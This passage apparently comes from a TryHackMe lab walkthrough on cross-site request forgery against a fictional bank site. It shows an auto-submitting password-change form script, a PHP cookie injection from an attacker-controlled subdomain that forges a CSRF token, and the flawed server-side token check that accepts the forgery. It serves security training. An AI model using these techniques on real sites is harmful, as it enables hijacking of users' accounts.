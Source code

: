 ```html
	
	</div>
<script>
document.getElementById('password_submit').click(); 
</script>
        
```

- In the above code, the attacker will update the payload and add theÂ `base64 value`Â of Josh's bank account as a new CSRF token value.Â 
- Navigate to Josh's mailbox at theÂ `mailbox.thm:8081`Â to see the new mail with the craftedÂ CSRFÂ payload.

![selected email screenshot](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/32ef629045775c0616918e9caf0536a5.png)  

- Once you click the link, it will redirect you to the attacker-controlled subdomain page and auto-submit the form to change the password. The attacker contains a code similar to that of the change password page ofÂ `mybank.thm`; however, he is also setting a cookie with the following code so that it will be forwarded to the main domainÂ `mybank.thm`Â while triggering aÂ CSRFÂ attack.  
    

```php
<?php
...
setcookie(
    'csrf-token',               
    base64_encode("GB82MYBANK5699"),            
    [
        'expires' => time() + (365 * 24 * 60 * 60), 
        'path' => '/',                         
        'domain' => 'mybank.thm',                          
        'secure' => false,                      
        'httponly' => false,                 
        'samesite' => 'Lax' 
    ]
);
?>
```

- The attacker knows the hidden form parameter, and the form will submit all the data, including the hidden fields, to the original change password page ofÂ `mybank.thm:8080`. Following is the server-side code, let's see what is happening on the server:  
    

```php
<?php
if (base64_decode($_POST["csrf_token"]) == base64_decode($_COOKIE['csrf-token'])) { 
// Retrieve form data
$currentPassword = $_POST["current_password"];
$newPassword = $_POST["confirm_password"];
// Update Password
...;
```

- As we see in the above code, the server will decode theÂ CSRFÂ token and compare it with the cookie value. The server hostingÂ `mybank.thm:8080`Â will consider the request legitimate as it comes from a logged-in user, and theÂ CSRFÂ token is also valid and will update the password.

